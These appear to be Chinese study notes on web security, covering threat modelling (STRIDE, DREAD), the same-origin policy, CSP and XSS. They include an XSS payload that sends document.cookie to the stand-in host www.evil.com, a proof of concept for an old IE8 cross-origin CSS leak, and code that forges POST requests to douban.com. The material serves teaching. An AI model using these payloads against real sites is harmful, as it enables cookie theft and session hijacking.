



# 第一篇 世界观安全

## 第1章 我的安全世界观

### 安全三要素

CIA

* 机密性  confidentiality

* 完整性  Integrity

* 可用性  Availability

### 如何实施安全评估

主要分为4个阶段

* 资产等级划分  对数据等核心资产的重要性进行分类，之后进一步划分信任域和信任边界

* 威胁分析  主要是确定攻击面，一种威胁建模方法是STRIDE
  
  | 威胁                          | 定义       | 对应的安全属性 |
  | --------------------------- | -------- | ------- |
  | Spoofing 伪装                 | 冒充他人身份   | 认证      |
  | Tampering 篡改                | 修改数据或代码  | 完整性     |
  | Repudiation 抵赖              | 否认做过的事情  | 不可抵赖性   |
  | information Disclosure 信息泄露 | 机密信息泄露   | 机密性     |
  | Denial of Service 拒绝服务      | 拒绝服务     | 可用性     |
  | Elevation of Privilege 提升权限 | 未经授权获得许可 | 授权      |

* 风险分析  风险的高低主要由发生的概率与产生的危害决定，一种风险研判方法是DREAD模型
  
  | 等级               | 高                       | 中                     | 低           |
  | ---------------- | ----------------------- | --------------------- | ----------- |
  | Damage Potential | 获取完全验证权限，执行管理员操作，非法上传文件 | 泄露敏感信息                | 泄露其他信息      |
  | Reproducibility  | 攻击者可以随意再次攻击             | 攻击者可以重复攻击，但有时间限制      | 攻击者很难重复攻击过程 |
  | Exploitability   | 初学者在短期内能掌握攻击方法          | 熟练的攻击者才能完成攻击          | 漏洞利用条件非常苛刻  |
  | Affected Users   | 所有用户 默认配置 关键用户          | 部分用户 非默认配置            | 极少数用户 匿名用户  |
  | Discoverability  | 漏洞很显眼，攻击条件很容易获得         | 在私有区域，部分人能看到，需要深入挖掘漏洞 | 发现该漏洞及其困难   |

* 设计安全方案
  
  * 能够有效解决问题
  
  * 用户体验好
  
  * 高性能
  
  * 低耦合
  
  * 易于扩展与升级

### 白帽子兵法

这里介绍了几个具体设计安全方案时的技巧

#### Secure By Default（默认安全）原则

* 黑名单/白名单  总则

* 最小权限原则

* 纵深防御原则（Defense in Depth）    更全面 正确地看待问题

* 数据与代码分离原则  漏洞成因上看问题

* 不可预测性原则  从克服攻击的角度看问题
  
  如ASLR，使得程序基址不可预测，极大增大了利用成本

# 第二篇 客户端脚本安全

### 第2章 浏览器安全

#### 同源策略

Same Origin Policy  初衷是为了防止a.com中的一个脚本在b.com网页未加载该脚本时也对其进行修改

##### 同源的定义

何为“源”，影响其的因素主要有

* host（域名或IP，若是IP则视为一个根域名）

* 子域名

* 端口

* 协议

以下是几个例子

| URL                                             | 结果            |
| ----------------------------------------------- | ------------- |
| http://store.company.com/dir2/other.html        |               |
| http://store.company.com/dir/inner/another.html | 与1同源          |
| https://store.company.com/secure.html           | 与1不同源，因为协议不同  |
| http://store.company.com:81/dir/etc.html        | 与1不同源，因为端口不同  |
| http://news.company.com/dir/other.html          | 与1不同源，因为子域名不同 |

##### 同源访问与跨域访问

###### 机制

`<script>  <iframe> <link>`等标签可以跨域加载资源，每次跨域加载实际上是浏览器发起了一次GET请求。XML.HttpRequest则根据HTTP头的`Access-Control-Allow-Origin`控制是否可以访问跨域的对象；DOM Cookie等也受到同源策略限制

```html
<html>

<head>
  <script type="text/javascript">
    var xmlhttp;
    function loadXMLDoc(url) {
      xmlhttp = null;
      if (window.XMLHttpRequest) {// code for Firefox, Opera, IE7, etc.
        xmlhttp = new XMLHttpRequest();
      }
      else if (window.ActiveXObject) {// code for IE6, IE5
        xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
      }
      if (xmlhttp != null) {
        xmlhttp.onreadystatechange = state_Change;
        xmlhttp.open("GET", url, true);
        xmlhttp.send(null);
      }
      else {
        alert("Your browser does not support XMLHTTP.");
      }
    }

    function state_Change() {
      if (xmlhttp.readyState == 4) {// 4 = "loaded"
        if (xmlhttp.status == 200) {// 200 = "OK"
          document.getElementById('T1').innerHTML = xmlht
          tp.responseText;
        }
        else {
          alert("Problem retrieving data:" +
            xmlhttp.statusText);
        }
      }
    }
  </script>
</head>

<body onload="loadXMLDoc('/example/xdom/test_xmlhttp.txt')">
  <div id="T1" style="border:1px solid black;height:40;width:300;padding:5">
  </div><br />
  <button onclick="loadXMLDoc('/example/xdom/test_xmlhttp2.txt')">Click</button>
</body>

</html>
```

此外，浏览器加载的第三方插件也会有自己的控制策略，如Flash / Java Applet等。如flash通过crossdomain.xml判断是否允许当前源的flash访问跨域资源，flash 9后还加入了MIME的判断，防止例如文件上传覆盖crossdomain.xml的攻击

###### 历史漏洞

IE8曾存在CSS跨域漏洞

```html
<!-- www.a.com/test.html -->
<body>
{}body{font-family:
aaaaaaa
bbbbbbbb

</body>
```

```html
<!-- www.b.com/test2.html -->

<style>
@import url("www.a.com/test.html");
</style>

<script>
    setTimeout(function() {
    var t = document.body.currentStyle.fontFamily;
    alert(t);}, 2000);
}
</script>
```

后一个文件通过import加载了第一个文件作为CSS，并访问了fontFamily。由于IE解析CSS时的问题，其会将后面内容误解析为font-family的值，导致在b.com下读到a.com的内容

#### 浏览器沙箱

沙箱技术将浏览器的不同功能模块拆分成不同进程，通过IPC通信实现交互，使得资源可以得到隔离，提高利用成本





#### 恶意网址拦截

通过拦截恶意网址，防止浏览器通过<script> <iframe>访问可能存在恶意网站的网址

#### CSP

Content Security Policy，为HTTP头中的一个字段，可以定义当前网页需要遵守的安全策略

```
X-Content-Security-Policy: allow 'self'; img-src *; media-src medial.com; script-src userscripts.example.com
```

如上例，通过该字段对各个安全域的跨域访问进行限制。由于该字段在HTTP头中，且一般XSS难以修改该字段，使得其对类似XSS的攻击有很好的防护效果

### 第3章 XSS

#### 简介

##### 分类

* 反射型XSS  非持久型的XSS，恶意代码往往是在点击某个地方后执行的

* 存储型XSS  会把输入的XSS存储在服务端，每次访问都可能触发，这类稳定性更强，危害更大

* DOM based XSS  也算反射型XSS，但它攻击的目标是DOM节点

#### XSS进阶

##### XSS Payload

常见的攻击方式是将恶意js脚本放在某个网页上，再在XSS点通过`<script>`标签引入

###### Cookie窃取

```js
var img = document.createElement("img");
img.src = "http://www.evil.com/log?" + escape(document.cookie);
document.body.appendChild(img);
```

这段代码就完成了一个很基础的cookie外带功能，通过向www.evil.com发送图片请求将cookie作为参数外带出去，在后者的HTTP log上就可以看到带出的cookie

###### 构造GET与POST请求

GET请求构造可以参考上面获取图片的方式

POST请求构造则较为复杂

```js
var f = document.createElement("form");
f.action = "";
f.method = "post";
document.body.appendChild(f);

var i1 = document.createElement("input");
i1.name = "ck";
i1.value = "JiUY";
f.appendChild(i1);


var i2 = document.createElement("input");
i2.name = "md_text";
i2.value = "testtesttest";
f.appendChild(i2);

f.submit();
```

上述方法其实是手动构造表单。也可以直接通过写HTML构造表单

```js
var dd = document.createElement("div");
document.body.appendChild(dd);
dd.innerHTML = '<form action="" method="post" id="xssform" name="mbform">' + '<input type="hidden" value="JiUY", name="ck"/>' + '<input type="text" value="testtesttest", name="mb_text"/>' + '</form>'

document.getElementById("xssform").submit();
```

又或者可以通过XMLHTTPRequest构造

```js
var url = "http://www.douban.com";
var postStr = "ck=JiUY&mb_text=test1234";

var ajax = null;
if(window.XMLHttpRequest) {
    ajax = new XMLHttpRequest();
}
else if(window.ActiveXObject) {
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}
else {
    return;
}

ajax.open("POST", url, true);
ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajax.send(postStr);

ajax.onreadystatechange = function() {
    if(ajax.readyState == 4 && ajax.status == 200) {
        alert("Done!");
    }
}
```

###### XSS钓鱼

可以做各种操作，如伪造登录框骗取用户输入

###### 识别用户浏览器

最简单的就是通过UA

```js
alert(navigator.userAgent);
```

其他方式如，通过不同类型不同版本浏览器独占功能来识别，更魔法的如书中例子，由于JS的一些特定语句结果在不同浏览器间存在差异，因此可以通过该方法进行识别



###### 识别用户安装的软件

可以识别安装的软件 浏览器插件扩展等

不同浏览器也有着不同的识别方法，如IE可以通过是否存在ActiveX控件来识别，chrome或firefox则可以通过特定函数或协议来识别（`chrome://`）

###### CSS History Hack

若用户访问过某个链接，其一段时间内会被标红，则可通过该方法获知用户是否访问过该链接（通过style的visited属性）

##### 获取用户真实IP

JS无法直接获取，若用户安装了JRE，则可以调用Java Applet接口获取

#### XSS Worm

使用XSS实现蠕虫功能，其可以自动进行传播
